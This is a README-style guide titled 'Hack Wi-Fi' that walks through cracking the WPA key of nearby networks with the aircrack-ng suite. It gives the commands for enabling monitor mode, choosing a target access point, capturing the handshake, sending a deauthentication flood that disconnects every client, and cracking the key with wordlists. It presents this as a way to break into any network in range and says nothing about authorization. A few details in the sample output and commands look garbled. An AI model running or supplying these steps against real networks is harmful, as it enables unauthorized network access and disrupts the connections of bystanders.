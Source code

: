 # Hack Wi-Fi
This repo contains every step to hack any Wi-Fi in your surroundings.  

**The basic requirement is having a Linux distro booted in your Machine or in a Virtual Machine.**
   - Using VM requires an external Wi-Fi network adapter that should support monitor mode. (Recommended: Alfa network adapter)
   - Using your machine doesn't require any external Wi-Fi adapter if the internal one supports monitor mode.  

## Install aircrack-ng:  
Arch:
```
sudo pacman -S aircrack-ng
```
Kali:
```Managed
sudo apt-get update
sudo apt-get upgrade aircrack-ng
```
Ubuntu/Debian:
```
sudo apt-get update
sudo apt-get install aircrack-ng
```
Fedora:
```
sudo dnf install aircrack-ng
```


## Check your wireless LAN adapter name:
```
ip addr
```
**Find your LAN adapter name below:**  
Here it is wlan0.
```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 123.0.0.4/5 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: enp2s0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc fq_codel state DOWN group default qlen 1000
    link/ether 04:42:1a:d0:ee:f4 brd ff:ff:ff:ff:ff:ff
3: wlan0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 90:e8:68:2c:e8:77 brd ff:ff:ff:ff:ff:ff
    inet 192.168.139.57/16 brd 192.168.255.255 scope global dynamic noprefixroute wlan0
       valid_lft 84054sec preferred_lft 84054sec
    inet6 fe80::a3f5:fa53:55c:b0e7/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```


## Change your adapter from managed mode to monitor mode
**Check it's mode:**
```
iwconfig
```
It should be in managed mode at its initial stage. The wlan0 says it's mode.
```
lo        no wireless extensions.

enp2s0    no wireless extensions.

wlan0     IEEE 802.11  ESSID:"LIBRARY"  
          Mode:Managed  Frequency:5.2 GHz  Access Point: A4:2A:95:2C:33:44   
          Bit Rate=585 Mb/s   Tx-Power=3 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=63/70  Signal level=-47 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:0   Missed beacon:0

```
**Checking for any conflicting process to kill them:**
```
sudo airmon-ng check kill
```  

**Changing the LAN to monitor mode:**
```
sudo airmon-ng start wlan0
```
**Check it's mode now:**
```
iwconfig
```
It should be in monitor mode at this stage. The wlan0 says it's mode.
```
lo        no wireless extensions.

enp2s0    no wireless extensions.

wlan0mon  IEEE 800.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=3 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```
If you try to check, the wlan0 name is changed to wlan0mon, because we have changed it to monitor mode.  



## Discover the Access Points:
```
sudo airodump-ng wlan0mon
```
A whole bunch of wireless networks will be discovered here. From there note the BSSID(Would be found in the BSSID column) and the Channel(Would be found in the CH column) of your targeted wireless network. After being done with noting down that information, stop (Ctrl + C) the process.  

**Display only the targetted access point:**
```
sudo airodump-ng wlan0mon -d <BSSID>
```
Replace the above < BSSID > with your targetted network's BSSID that you noted before.
It will show the information of your targetted network and below it shows the connected device with that network. If you see it is empty below that means,  no devices are connected with that network, and in that case, you need to connect a device so that the handshake file can be exchanged with the AP(Access Point) and you get the chance to capture it on it's way. When you see any connected device below, stop (Ctrl + C) the process.



## Storing the captured HandShake file to the local:
```
sudo airodump-ng -w getpass -c <CHANNEL> --bssid <BSSID> wlan0mon
```
Replace < CHANNEL > with the channel for your targeted network and < BSSID > with your BSSID.  
Here ```getpass``` is going to be the file name of the handshake file we would store.
Don't stop the process (Follow the next steps instead) and leave it till we send the de-authentication request and get the handshake file.



## Send the De-Authentication request:
Open a new console window and input the command there. That means you are instructed not to kill the process of the previous tab. That should be opened because we will get that file on that other window only.  
Enter the below command in the new tab of the console.
```
sudo aireplay-ng deauth 0 -a <BSSID> wlan0mon
```
Replace < BSSID > with your BSSID of the targeted AP.
This sends the De-Authentication request to the targetted network which means, that each and every connected device will be disconnected and will try to reconnect with the AP again. This is the time we will capture the handshake file and will store it locally. Stop the process after 30 to 45 seconds.



## Checking the directory if the Handshake is captured
```clear``` all the commands.
List the current directory by ```ls```
If any file named ```getpass-01.cap```is found that means the file is captured and it is ready to be cracked.
If nothing is found named ```getpass-01.cap``` that means the whole process should be completed correctly again.



## Cracking the HandShake file using aircrack-ng:
Cracking that file needs some wordlists. Few wordlists are available in this repo and anyone from this should be downloaded.  
List the directory by ```ls``` to make sure both the wordlist and the Handshake file are present there.  
**Use the below command to crack the key:**  
```aircrack-ng getpass-01.cap -w <WORDLIST-PATH>```  
Replace < WORDLIST-PATH > with the path of the wordlist downloaded.



_Now the output is either 'THE KEY IS FOUND' or 'THE KEY IS NOT FOUND'. If the key couldn't be found in that particular wordlist, try with a few other wordlists available._  
HOPE IT WAS EASY TO MAKE THIS JOB DONE
